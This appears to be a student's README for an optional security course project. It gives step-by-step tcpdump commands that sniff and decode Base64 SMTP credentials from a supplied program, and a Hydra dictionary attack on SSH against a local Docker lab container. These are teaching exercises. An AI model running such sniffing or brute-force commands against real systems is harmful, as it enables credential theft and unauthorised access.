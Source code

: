 # Attack is the best defense
## DevOps ## Scripting ## Hacking

### Concepts
For this project, we expect you to look at these concepts:
* [Network basics](https://intranet.alxswe.com/concepts/33)
* [Docker](https://intranet.alxswe.com/concepts/65)

## Background Context
This project is NOT mandatory at all. It is 100% optional. Doing any part of this project will add a project grade of over 100% to your average. Your score won’t get hurt if you don’t do it, but if your current average is greater than your score on this project, your average might go down. Have fun!
## Resources
### Read or watch:
* [Network sniffing](https://intranet.alxswe.com/rltoken/eF4956aQFYnhS_i6IF9R-g)
* [ARP spoofing](https://intranet.alxswe.com/rltoken/RK-4WtV0YCSETDSG9lr1hw)
* [Connect to SendGrid’s SMTP relay using telnet](https://intranet.alxswe.com/rltoken/twuD5E9_-V2z1zfW5nXyyg)
* [What is Docker and why is it popular?](https://intranet.alxswe.com/rltoken/56VrRmkBHFq2OKLM_FQA6w])
* [Dictionary attack](https://intranet.alxswe.com/rltoken/dbAwbf71VVSCTOfeR1NRmg)
### man or help:
* tcpdump
* hydra
* telnet
* docker

A repo for the optional project Attack is the best defense
## Task 0: ARP Spoofing and Sniffing Unencrypted Traffic

### Prerequisites
Before proceeding, ensure you have the required tools installed:

1. **Download the Program:**
   - Download the provided program:
     ```bash
     curl -O https://s3.amazonaws.com/intranet-projects-files/holbertonschool-sysadmin_devops/264/user_authenticating_into_server
     ```

2. **Install `tcpdump`:**
   - Update your package list:
     ```bash
     sudo apt-get update
     ```
   - Install `tcpdump`:
     ```bash
     sudo apt-get install tcpdump
     ```

3. **Install `tshark`:**
   - Install `tshark` for more human-readable output:
     ```bash
     sudo apt install tshark
     ```

### Intercepting Data
Now you're ready to intercept data between the `user_authenticating_into_server` program and the SendGrid server.

1. **Run `tcpdump`:**
   - Execute the following command to capture network traffic:
     ```bash
     sudo tcpdump -i eth0 -n -s 0 -A 'host smtp.sendgrid.net and port 587' -w sendgrid_traffic.pcap
     ```
     - `-i eth0`: Replace `eth0` with the network interface your program uses.
     - `-n`: Display numeric IP addresses and port numbers instead of resolving hostnames and services.
     - `-s 0`: Capture the entire packet.
     - `-A`: Display packet data (payload) in ASCII format.
     - `'host smtp.sendgrid.net and port 587'`: Capture traffic to and from SendGrid's SMTP server on port 587.
     - `-w sendgrid_traffic.pcap`: Save captured packets to a file for later analysis.

2. **Run Your Program:**
   - In a second Ubuntu terminal, give permission and then run your program:
     ```bash
     sudo chmod +x user_authenticating_into_server
     sudo ./user_authenticating_into_server
     ```

3. **Capture and Analyze:**
   - Wait for your program to execute, then interrupt the first terminal using `CTRL-C`.
   - You'll have a `sendgrid_traffic.pcap` file that you can analyze.

### Analyzing the Capture
You can analyze the capture file using either `tcpdump` or `tshark`:

- Using `tcpdump`:
   ```bash
   tcpdump -r sendgrid_traffic.pcap
   ```
- Using `tshark` for more human-readable output:
  ```bash
  15 3.999733 172.31.145.221 → 54.228.39.88 SMTP 80 C: User: bXlsb2dpbg==
  16 4.069955 54.228.39.88 → 172.31.145.221 TCP 66 587 → 57152 [ACK] Seq=196 Ack=63 Win=32256 Len=0 TSval=2327286244 TSecr=1468075274
  17 4.069956 54.228.39.88 → 172.31.145.221 SMTP 84 S: 334 UGFzc3dvcmQ6
  18 4.070087 172.31.145.221 → 54.228.39.88 TCP 66 57152 → 587 [ACK] Seq=63 Ack=214 Win=64128 Len=0 TSval=1468075345 TSecr=2327286244
  19 6.001628 172.31.145.221 → 54.228.39.88 SMTP 88 C: Pass: bXlwYXNzd29yZDk4OTgh
  ```
  
  This part of the output shows the authentication process with the information:
   
    User: bXlsb2dpbg==
  
    Pass: bXlwYXNzd29yZDk4OTgh

  Credentials are Base64 encoded, so the decoded information would be:
  
    User: mylogin
  
    Pass: mypassword9898!


## Task 1: Dictionary Attack

Performing a dictionary attack using Hydra to guess a password for an SSH account.

## Prerequisites

- Docker: [Install Docker](https://docs.docker.com/get-docker/)

## Setup

1. Pull and run the Docker image `sylvainkalache/264-1` with the following command:

    ```bash
    docker run -p 2222:22 -d -ti sylvainkalache/264-1
    ```

2. Start the Docker container by replacing `<container_id>` with the ID of the newly created `sylvainkalache/264-1` container:

    ```bash
    docker start -ai <container_id>
    ```

3. Install Hydra:

    ```bash
    sudo apt-get install hydra
    ```

4. Download a potential password list in `.txt` format. You can find one in the [SecLists library](https://github.com/danielmiessler/SecLists/blob/master/Passwords/2020-200_most_used_passwords.txt).

5. To save time and resources, isolate passwords with 11 characters from your password list:

    ```bash
    grep -oE '\b\w{11}\b' all_passwords.txt > 11_char_passwords.txt
    ```

## Running the Attack

Run Hydra with the specified requirements:

```bash
hydra -l sylvain -P 11_char_passwords.txt ssh://127.0.0.1
```

   - `-l sylvain`: Specifies the target username as "sylvain." This is the username for which you are attempting to guess the password.

   - `-P 11_char_passwords.txt`: Specifies the password list or wordlist you are using for the attack. In this case, the wordlist contains passwords with 11 characters. Hydra will try each password from this list in an attempt to gain access to the SSH service.

   - `ssh://127.0.0.1`: Specifies the target SSH service running on the local host (127.0.0.1). Hydra will attempt to log in to this SSH service using the provided username and the passwords from the wordlist.

Please practice patience as hydra tries every password in the file until it finds the right one. Once successful, it will return an output similar to:

```bash
[22][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
```

### More Reference material
(Attack is the best defense: Password cracking with Network Sniffing and Dictionary Attack)[https://medium.com/@polalekan/attack-is-the-best-defense-password-cracking-with-network-sniffing-and-dictionary-attack-72fbbf0aa272]
